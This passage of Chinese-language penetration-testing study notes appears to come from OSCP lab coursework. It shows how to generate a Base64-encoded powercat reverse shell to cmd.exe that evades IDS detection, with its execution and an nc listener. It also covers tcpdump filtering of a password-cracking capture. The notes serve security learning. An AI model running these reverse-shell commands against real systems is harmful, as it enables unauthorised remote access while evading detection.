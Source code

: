 **像这样的独立负载可能很容易被IDS检测到。 具体来说，生成的脚本相当大，大约有300行代码。还有很多硬编码字符串，会很容易被检测出来**

**我们可以尝试通过使用PowerShell执行Base64编码命令的能力来克服这个问题。 为了生成一个独立的编码有效负载，我们使用-ge选项，并再次将输出重定向到一个文件：**

`PS C:\Users\offsec> powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1`

**生成的encodedreverseshell.ps1文件是一个可以使用powershell -e 选项执行的编码字符串，由于-e选项被设计为在命令行上提交复杂命令的一种方式，因此生成的encodedReverseShell.ps1脚本不能以与未编码的有效负载相同的方式执行**

**想要执行得吧文件中的整个字符串输给powershell  -e **

```
powershell -E xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx.....

kali > nc -nvlp 443
```

#### wireshark

**注意：ftp是一个明文协议，通过wireshark抓包可以看到ftp客户端发送和接受的的命令和输出**

**注意一下breach 靶机中wireshark导入证书的操作**

#### tcpdump

**基于文本的网络嗅探器，本地用户权限决定了捕获网络通信量的能力，tcpdump既可以捕获来自网络的通信量，也可以读取现有的捕获文件（常常配合字符串处理命令和管道使用）如**

`sudo tcpdump -n -r password_cracking_filtered.pcap | awk -F" " '{print $3 }' | sort | uniq -c | head`

**添加过滤器**

```
sudo tcpdump -n src host 172.16.40.10 -r password_cracking_filtered.pcap
sudo tcpdump -n dst host 172.16.40.10 -r password_cracking_filtered.pcap
sudo tcpdump -n port 81 -r password_cracking_filtered.pcap


kali@kali:~$ sudo tcpdump -nX -r password_cracking_filtered.pcap
以十六进制的方式打开数据包

┌──(root㉿kali)-[~/桌面/baji'/breach 1.0]
└─# sudo tcpdump -nX -r ./_SSL_test_phase1.pcap 
reading from file ./_SSL_test_phase1.pcap, link-type EN10MB (Ethernet), snapshot length 262144
00:56:50.635257 IP 192.168.110.1.51260 > 192.168.110.255.32412: UDP, length 21
        0x0000:  4500 0031 49f4 0000 8011 9276 c0a8 6e01  E..1I......v..n.
        0x0010:  c0a8 6eff c83c 7e9c 001d e44a 4d2d 5345  ..n..<~....JM-SE
        0x0020:  4152 4348 202a 2048 5454 502f 312e 310d  ARCH.*.HTTP/1.1.
        0x0030:  0a                                       .

```

**tcpdump 使用高级过滤头：**
